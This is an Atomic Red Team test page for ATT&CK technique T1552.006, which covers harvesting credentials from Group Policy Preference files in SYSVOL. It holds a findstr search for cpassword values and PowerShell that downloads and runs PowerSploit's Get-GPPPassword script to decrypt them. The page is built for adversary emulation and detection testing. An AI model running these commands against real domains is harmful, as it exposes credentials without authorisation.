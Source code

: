 # T1552.006 - Unsecured Credentials: Group Policy Preferences

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/006)

<blockquote>Adversaries may attempt to find unsecured credentials in Group Policy Preferences (GPP). GPP are tools that allow administrators to create domain policies with embedded credentials. These policies allow administrators to set local accounts.(Citation: Microsoft GPP 2016)

These group policies are stored in SYSVOL on a domain controller. This means that any domain user can view the SYSVOL share and decrypt the password (using the AES key that has been made public).(Citation: Microsoft GPP Key)

The following tools and scripts can be used to gather and decrypt the password file from Group Policy Preference XML files:

- Metasploit’s post exploitation module: <code>post/windows/gather/credentials/gpp</code>
- Get-GPPPassword(Citation: Obscuresecurity Get-GPPPassword)
- gpprefdecrypt.py

On the SYSVOL share, adversaries may use the following command to enumerate potential GPP XML files: <code>dir /s \* .xml</code>

</blockquote>

## Atomic Tests

- [Atomic Test #1 - GPP Passwords (findstr)](#atomic-test-1---gpp-passwords-findstr)

- [Atomic Test #2 - GPP Passwords (Get-GPPPassword)](#atomic-test-2---gpp-passwords-get-gpppassword)

<br/>

## Atomic Test #1 - GPP Passwords (findstr)

Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller. This value can be decrypted with gpp-decrypt on Kali Linux.

**Supported Platforms:** Windows

**auto_generated_guid:** 870fe8fb-5e23-4f5f-b89d-dd7fe26f3b5f

#### Attack Commands: Run with `command_prompt`!

```cmd
findstr /S cpassword %logonserver%\sysvol\*.xml
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #2 - GPP Passwords (Get-GPPPassword)

Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller.
This test is intended to be run from a domain joined workstation, not on the Domain Controller itself.
The Get-GPPPasswords.ps1 executed during this test can be obtained using the get-prereq_commands.

Successful test execution will either display the credentials found in the GPP files or indicate "No preference files found".

**Supported Platforms:** Windows

**auto_generated_guid:** e9584f82-322c-474a-b831-940fd8b4455c

#### Inputs:

| Name            | Description                                   | Type | Default Value                                                                                                                           |
| --------------- | --------------------------------------------- | ---- | --------------------------------------------------------------------------------------------------------------------------------------- |
| gpp_script_url  | URL of the Get-GPPPassword PowerShell Script  | url  | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/87630cac639f29c2adcb163f661f02890adf4bdd/Exfiltration/Get-GPPPassword.ps1 |
| gpp_script_path | Path to the Get-GPPPassword PowerShell Script | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Get-GPPPassword.ps1                                                                 |

#### Attack Commands: Run with `powershell`!

```powershell
. "#{gpp_script_path}"
Get-GPPPassword -Verbose
```

#### Dependencies: Run with `powershell`!

##### Description: Get-GPPPassword PowerShell Script must exist at #{gpp_script_path}

##### Check Prereq Commands:

```powershell
if(Test-Path "#{gpp_script_path}") {exit 0 } else {exit 1 }
```

##### Get Prereq Commands:

```powershell
New-Item -ItemType Directory (Split-Path "#{gpp_script_path}") -Force | Out-Null
Invoke-WebRequest #{gpp_script_url} -OutFile "#{gpp_script_path}"
```

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
